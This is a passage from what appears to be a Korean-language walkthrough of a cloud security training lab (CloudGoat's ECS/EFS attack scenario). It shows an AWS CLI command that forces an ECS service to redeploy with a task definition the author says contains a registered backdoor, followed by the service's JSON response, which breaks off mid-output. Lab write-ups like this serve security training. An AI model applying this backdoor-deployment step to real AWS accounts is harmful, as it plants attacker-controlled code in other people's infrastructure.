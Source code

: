 - 백도어 파일을 등록하였고 이에 대한 업데이트를 할 수 있도록 task definition을 사용하여 container 배포를 자동으로 시도합니다.

![Untitled](./29.png)

```python
ubuntu@ip-10-10-10-133:~$ aws ecs update-service --service arn:aws:ecs:us-east-1:712987748923:service/cg-cluster-ecs_efs_attack_cgidzng5qpdu9q/cg-webapp-ecs_efs_attack_cgidzng5qpdu9q --cluster arn:aws:ecs:us-east-1:712987748923:cluster/cg-cluster-ecs_efs_attack_cgidzng5qpdu9q --task-definition arn:aws:ecs:us-east-1:712987748923:task-definition/webapp:3
{
    "service": {
        "serviceArn": "arn:aws:ecs:us-east-1:712987748923:service/cg-cluster-ecs_efs_attack_cgidzng5qpdu9q/cg-webapp-ecs_efs_attack_cgidzng5qpdu9q",
        "serviceName": "cg-webapp-ecs_efs_attack_cgidzng5qpdu9q",
        "clusterArn": "arn:aws:ecs:us-east-1:712987748923:cluster/cg-cluster-ecs_efs_attack_cgidzng5qpdu9q",
        "loadBalancers": [],
        "serviceRegistries": [],
        "status": "ACTIVE",
        "desiredCount": 1,
        "runningCount": 1,
        "pendingCount": 1,
        "launchType": "FARGATE",
        "platformVersion": "LATEST",
        "taskDefinition": "arn:aws:ecs:us-east-1:712987748923:task-definition/webapp:3",
        "deploymentConfiguration": {
            "deploymentCircuitBreaker": {
                "enable": false,
                "rollback": false
            },
            "maximumPercent": 200,
            "minimumHealthyPercent": 100
        },
        "deployments": [
            {
                "id": "ecs-svc/9719804482648596889",
                "status": "PRIMARY",
                "taskDefinition": "arn:aws:ecs:us-east-1:712987748923:task-definition/webapp:3",
                "desiredCount": 1,
                "pendingCount": 0,
                "runningCount": 0,
                "failedTasks": 0,
                "createdAt": "2021-08-18T06:47:06.407000+00:00",
                "updatedAt": "2021-08-18T06:47:06.407000+00:00",
                "launchType": "FARGATE",
                "platformVersion": "1.4.0",
                "networkConfiguration": {
                    "awsvpcConfiguration": {
                        "subnets": [
                            "subnet-00a761bd4a95363c0"
                        ],
                        "securityGroups": [
```